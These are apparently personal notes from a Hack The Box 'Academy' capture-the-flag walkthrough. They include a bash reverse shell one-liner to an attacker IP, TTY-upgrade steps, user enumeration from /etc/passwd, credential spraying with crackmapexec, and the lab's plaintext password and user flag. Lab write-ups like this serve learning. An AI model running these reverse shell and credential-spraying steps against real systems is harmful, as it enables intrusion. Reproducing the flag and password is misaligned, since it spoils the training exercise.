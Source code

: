 
![[Pasted image 20230810054359.png]]

Can't use TTY to get the full shell in metasploit.

So in order to  get the full terminal will run the bash script and listen to port 9001
bash -c 'bash -i >& /dev/tcp/10.10.16.58/9001 0>&1'

![[Pasted image 20230810064058.png]]

I had a hard time converting the dump shell to full control shell had to type
stty raw -echo ; fg

Finally got a terminal with full control
![[Pasted image 20230810064337.png]]

# Upgrade a Dumb Reverse Shell into a Fully Functional Terminal
https://www.youtube.com/watch?v=vOEO_6xfsdo

When you're in a reverse shell, you'd be placed into a dumb shell on www-data (assuming you popped the shell from a web exploit).

This dumb shell will stop working if you use Ctrl + C.

Hence you have to upgrade it.

Usually there's python installed on the box, which allows you to use python3 -c "__import__('pty').spawn('/bin/bash')" or similar.

Afterwards, use Ctrl + Z  followed by stty -raw echo, then fg on bash, or stty -raw echo;fg on zsh.

Finally, type reset.

Input your TERM var (usually xterm-256color).

Then you should have an interactive shell that allows Ctrl + C and history to function properly

Got a password of Database from academy folder when we used command ls -la
![[Pasted image 20230810081957.png]]

![[Pasted image 20230810082020.png]]

Got user list but it needs user privilege to read the file
![[Pasted image 20230810073359.png]]

cat /etc/passwd | grep sh$ | awk -F: '{print $1}'
![[Pasted image 20230810073920.png]]

We made 2 files 
pw for password 
user for user 
and run the crackmapexec  on it
![[Pasted image 20230810080728.png]]

Will try to make a SSH connection
UserId: cry0l1t3
Password: mySup3rP4s5w0rd!!

Command: ssh  cry0l1t3@academy.htb

![[Pasted image 20230810082539.png]]

Last login: Wed Aug 12 21:58:45 2020 from 10.10.14.2
$ ls
user.txt
$ cat user.txt  
aeab6248d9ff01acab2058ddcbe5932e

On occasions you get reverse shell but not tty shell, you can get it via the command-  
_python -c ‘import pty; pty.spawn(“/bin/bash”)’_  
  
Upgrading to fully interactive TTY shell (working arrow keys and CTRL-C won’t kill the reverse shell session). After python -c ‘import pty; pty.spawn(“/bin/bash”)’ , hit CTRL-z (this will background the nc session). then on kali machine type “stty raw -echo “ and enter. again, type “fg” and enter. (input cannot be seen after hitting stty command so simply type fg and enter).  
_This will now give fully interactive TTY shell as if you were logged in via SSH._

![[Pasted image 20230810082819.png]]


